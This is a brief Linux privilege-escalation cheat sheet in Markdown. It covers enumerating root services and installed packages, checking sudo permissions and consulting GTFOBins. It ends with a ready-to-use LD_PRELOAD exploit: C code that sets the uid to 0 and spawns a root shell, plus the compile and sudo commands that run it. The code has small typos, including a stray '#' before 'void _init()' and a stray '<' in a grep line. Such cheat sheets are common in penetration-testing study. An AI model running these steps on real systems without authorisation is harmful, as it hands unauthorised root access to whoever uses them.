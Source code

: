 # Escalation

## Services Exploits

Find all service that running is root or higher privilege. After enumerating the service, search with searchsploit or google for public exploit.

#### Get Running Services

```
ps aux | grep ^user
ps aux | grep ^root<
```

#### List Installed Software
```
#In debian based
dpkg -l #List all installed software
dpkg -l | grep software_name #find specific software details
#in Red based OS
rpm -qa | grep software_name
```

## SUDO Exploits

Sudo can run a program as super user(root). Administrator may give some program to run as root without supplying password.

```
sudo -u username ./program
sudo -l
```
And check :there is any program or script can run as sudo without password(NOPASSWORD). If we have a program, we can search for known exploit technique in <a href="https://gtfobins.github.io/">GTFObins</a>

## LD_PRELOAD

If LD_PRELOAD defined in sudoers file, we can escalate the privilege.
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
```
Compile the code with following command:
```
gcc -fPIC -shared -o hacked.so hacked.c -nostartfiles
```
Run the exploit
```
sudo LD_PRELOAD=/tools/hacked.so apache2
```
